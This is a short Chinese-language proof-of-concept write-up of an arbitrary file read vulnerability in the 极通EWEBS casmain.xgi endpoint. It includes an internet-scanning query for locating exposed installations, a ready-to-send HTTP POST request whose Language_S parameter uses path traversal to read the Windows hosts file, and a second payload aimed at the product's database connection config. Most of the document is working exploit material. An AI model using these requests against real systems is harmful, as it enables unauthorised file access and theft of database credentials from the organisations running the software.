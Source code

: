 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>极通EWEBS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新软科技-极通EWEBS"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615125923544.png)



漏洞请求包为

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615130137932.png)



可以配合 testweb.php 信息泄露读取敏感信息

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

